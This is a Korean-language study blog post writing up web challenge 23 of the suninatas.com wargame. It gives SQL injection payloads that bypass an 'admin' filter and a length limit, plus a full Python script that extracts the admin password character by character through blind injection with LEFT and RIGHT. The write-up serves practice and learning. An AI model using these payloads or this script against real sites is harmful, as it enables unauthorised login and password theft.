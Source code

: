 ```yaml
---
layout: default
title: Day26
nav_order: 5

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > https://suninatas.com

## challenge 23

![image-20220513152903218](../img/image-20220513152903218.png)

바로 다음 단계에서는 admin 아이디를 구해야하는데 admin이 필터링되어 있었다. 하지만 쿼리문에서 문자를 이어붙히는 방법을 알고 있기에 한 번 시도해보았더니 바로 admin 계정 로그인이 가능했다.

![image-20220513153231770](../img/image-20220513153231770.png)

익스코드로 시도하려 했으나 실패했었는데 삽질 과정 중 얻게 된 정보이다

|                  admi'+'n' and len(pw)>3--                   |
| :----------------------------------------------------------: |
| http://suninatas.com/challenge/web23/web23.asp?id=admi%27%2B%27n%27+and+len%28pw%29%3E3--&pw=1234	< 성공<br/>http://suninatas.com/challenge/web23/web23.asp?id=admi%27+%27n%27%20and%20len(pw)%3E3--&pw=1234	< 실패 |


직접 아이디란에 쿼리를 넣으면 성공 케이스처럼 URL이 전송되었는데 python의 requests 모듈을 이용하여 전송하니 실패 케이스처럼 URL이 전송되었다. 원인을 보니 `+` 기호에 대한 인코딩 차이인 것 같아서 익스코드에는 `+` 기호 대신 `%2B`를 넣어 직접 인코딩 해주었다.이를 토대로 바로 비밀번호 길이는 12자리임을 찾아냈는데 문제는 다음 단계였다.

이 문제에서는 `substring` 함수를 제한하고 있기에 다른 대안을 찾야야 한다.



<br>



찾은 대안은 이전 문제에서 힌트를 얻었는데 필터링에 LEFT와 RIGHT 함수가 제외된 부분이다. 그래서 LEFT 함수를 이용하여 문자열을 찾기로 했는데 과정 중에서 또 다른 제한 사항을 마주했다.

![image-20220513164224870](../img/image-20220513164224870.png)

분명 익스 코드에서 쿼리 문에 이상이 없는데 "No hack" 문구가 발생하는 것이다. 추적해보니 31자리 이상의 입력이 들어갈 경우에 필터링에 걸린 것과 같은 결과물이 나왔다. 때문에 `admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' ` 이렇게 보내는 쿼리 길이를 어떻게 줄여야 할까 생각을 해보았다.

<br>

쿼리를 받는 입장에서 생각해보기 위해 내가 웹을 만들었던 기억을 되살려보면 로그인 시에 `SELECT * FROM table WHERE id = '' and pw =''` 이런식으로 WHERE 절 뒤에 컬럼과 함께 넣었었다. 그리고 and를 이용해 검사 결과에 "그리고" 라는 의미를 더했었는데 생각해보면 "또는"의 `or`도 사용할 수 있었다. 그리하여 admin 계정 비밀번호의 첫번째 자리를 알 수 있다면 `WHERE id = '' or left(pw,3) = '?XX'` 와 같이 보낼 수도 있겠다. 어디까지나 첫번째 문자를 알아야만 가능한 것이다.

그리하여 위 시행착오와 가설을 통해 아래 익스 코드를 작성했다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web23/web23.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(3,30):
		uid = f'admi\'%2B\'n\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len_pw):

	# got first letter of pw
	#uid = f'admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' 
	#==> V
	res = "V"
	print(f"Wait! I find 1's letter : ",res)

	# get 9 letter on the left side
	for idx in range(2,len_pw+1):
		for i in range(33,127):
			uid = f'\'or left(pw,{idx})=\''+res+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break

	# get 2 letter on the right side
	res2 = ''
	for idx in range(1,3):
		for i in range(33,127):
			uid = f'\'or right(pw,{idx})=\''+chr(i)+res2+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res2 = chr(i) + res2
				break

	print(res+res2)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)	
```

삽질을 토대로 함수를 만들어낸 과정이다.

1. admin 문자열 우회를 위해 `+` 기호를 이용하여 문자열을 완성
2. `+` 기호가 인코딩되지 않아 직접 인코딩하여 전송
3. `substr` 함수 사용이 불가능하여 `left` 함수 이용
4. 쿼리 길이 제한이 있어서 첫번째 자리 확보 후에 `or`을 이용하여 쿼리 전송
5. 그럼에도 길이 제한이 있어서 `right` 함수 이용
6. `left`와 `right`를 통해 얻은 문자열 합침

캬 시간이 증발했다.



익스 결과 캡처본이다.

![image-20220513180056359](../img/image-20220513180056359.png)



<br>

## 정리

이렇게 5일동안 WEB 파트를 다 풀어보았는데 생각보다 얻은 것이 상당히 많은 것 같다. 앞으로 풀어나갈 문제들의 기초를 튼튼히 해두고 잊지 않기 위해서 얻은 개념과 정보들을 정리해두어야 겠다. 역시 개발을 하면서 웹과 친숙해진게 정말 강점으로 작용했다.

![image-20220513180620345](img/image-20220513180620345.png)